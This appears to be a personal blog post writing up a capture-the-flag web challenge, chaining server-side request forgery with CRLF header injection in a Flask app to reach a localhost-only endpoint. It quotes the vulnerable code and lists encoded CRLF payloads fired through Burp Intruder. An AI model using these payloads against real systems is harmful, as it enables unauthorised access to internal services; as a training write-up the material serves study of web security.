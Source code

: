 ```yaml
---
layout: post
title: Gynvael's web security challenge - part 0.
subtitle: Quick hacking at the weekend.
gh-repo: daattali/beautiful-jekyll
tags: [ctf, hacking, challenges]
comments: true
---
```


Over the weekend I have decided to play with Gynvael's web security challenges. The post presents the write-up of challenge 0.
The challenge is located under the following URL:
[http://challenges.gynvael.stream:5000/](http://challenges.gynvael.stream:5000/)

The challenge is simple FLASK application running as the Werkzaug - flask development web server.
After the quick code analysis, we see that to complete the challenge we must get the response from the /secret endpoint

```
@app.route('/secret')
def secret():
  if request.remote_addr != "127.0.0.1":
    return "Access denied!"

  if request.headers.get("X-Secret", "") != "YEAH":
    return "Nope."

  return f"GOOD WORK! Flag is {FLAG}"
```

To get the flag we would have to bypass to conditional checks, the first requirement is that the request must come from the localhost. The second requirement is that the HTTP request must have the X-Secret HTTP header with the value of YEAH.

So, the get the flag, we would have to exploit the Server Side Request Forgery on the same server, to be able to send an HTTP request to the loopback interface. Then, we would have to find the HTTP Header Injection sometimes called CRLF injection to be able to send the custom X-Secret HTTP header.

Luckly for us the web server exposes other endpoint /fetch:
```
@app.route('/fetch', methods=["POST"])
def fetch():
  url = request.form.get("url", "")
  lang = request.form.get("lang", "en-US")

  if not url:
    return "URL must be provided"

  data = fetch_url(url, lang)
  if data is None:
    return "Failed."

  return Response(data, mimetype="text/plain;charset=utf-8")
```

Analyzing the parameters that the endpoint expects - url and lang, we can say that the endpoint perform SSRF for us by calling the fetch_url(url,lang) function. Interesting part in the fetch_url(url,lang) function is the part describing how the HTTP request is built:

```
  req = '\r\n'.join([
    f"GET {o.path} HTTP/1.1",
    f"Host: {o.netloc}",
    f"Connection: close",
    f"Accept-Language: {lang}",
    "",
    ""
  ])
```

As we can see it is simple string concatenation, so we would be able to provide the end of line characters and inject arbitrary HTTP Header to the request.

Let's go the exploitation, I would use the Burp Suite Community Edition for that. We first try to send the request to http://localhost:5000/secret without changing the language parameter.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_1.png)


With that request, we would hit the second condition as the HTTP Header X-Secret is not set. Then, I would use Intruder to try different payloads for injecting the CRLF.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_2.png)

I have prepared the following list of payloads to try which has some of the common encoded characters to do CRLF injection.
```
%0a%0aX-Secret:%20YEAH
%0aX-Secret:%20YEAH
%0d%0aX-Secret:%20YEAH
%0dX-Secret:%20YEAH
%23%0aX-Secret:%20YEAH
%23%0d%0aX-Secret:%20YEAH
%23%0dX-Secret:%20YEAH
%25%30%61X-Secret:%20YEAH
%25%30aX-Secret:%20YEAH
%250aX-Secret:%20YEAH
%25250aX-Secret:%20YEAH
%2e%2e%2f%0d%0aX-Secret:%20YEAH
%2f%2e%2e%0d%0aX-Secret:%20YEAH
%2F..%0d%0aX-Secret:%20YEAH
%3f%0d%0aX-Secret:%20YEAH
%3f%0dX-Secret:%20YEAH
%u000aX-Secret:%20YEAH
```

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_3.png)

Additionally, we go the Options tab and set the Grep-Match to "GOOD WORK!" as this shows up when the flag is returned.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_4.png)

Then, we click "Start Attack", and see the results.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_5.png)

As we can see few of the Intruder's requests returned the flag. We can now view the response with the flag.
